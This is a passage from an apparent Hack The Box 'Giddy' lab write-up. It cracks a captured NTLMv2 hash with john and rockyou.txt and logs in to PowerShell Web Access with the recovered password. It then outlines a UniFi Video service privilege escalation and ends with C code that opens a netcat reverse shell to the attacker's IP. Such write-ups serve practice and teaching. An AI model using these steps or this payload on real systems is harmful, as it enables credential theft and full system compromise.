 Hash: `Stacy::GIDDY:1234567890123456:E5F6E4D55FD85E3C81554FD67088C8E2:0101000000000000CC831652C447D4014EC0AB8B8592622B0000000002000A0053004D0042003100320001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D0042003100320008003000300000000000000000000000003000003184F7110D23082928FF6CBBB72AEA07F35DCE741FC5B735D1B4780228A863AC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320033000000000000000000`

The hash is crackable with the standard rockyou.txt list and we recover the password:

```
root@darkisland:~/giddy# john --fork=4 -w=/usr/share/wordlists/rockyou.txt hash.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)
```

Password: `xNnWo6272k7x`

### Powershell web access

We can now log in to the web powershell interface using:

- Username: `giddy\stacy`
- Password: `xNnWo6272k7x`
- Computer: `giddy`

![](/assets/images/htb-writeup-giddy/remote2.png)

### Privesc

The hint for the privesc is in the documents folder -> `unifivideo`

![](/assets/images/htb-writeup-giddy/remote3.png)

There's a local privilege escalation exploit with Ubiquiti UniFi Video 3.7.3. Basically, the privileges are not set correctly in the installation directory where the service is installed so any user can substitute the executable for the service with a malicious file and get RCE as SYSTEM.

We confirm that the software is installed:

![](/assets/images/htb-writeup-giddy/remote4.png)

First, we create a simple exe that spawn a netcat connection back to us:

```c
#include "stdafx.h"
#include "stdlib.h"


int main()
{
    system("nc.exe -e cmd.exe 10.10.14.23 4444");
    return 0;
}
```
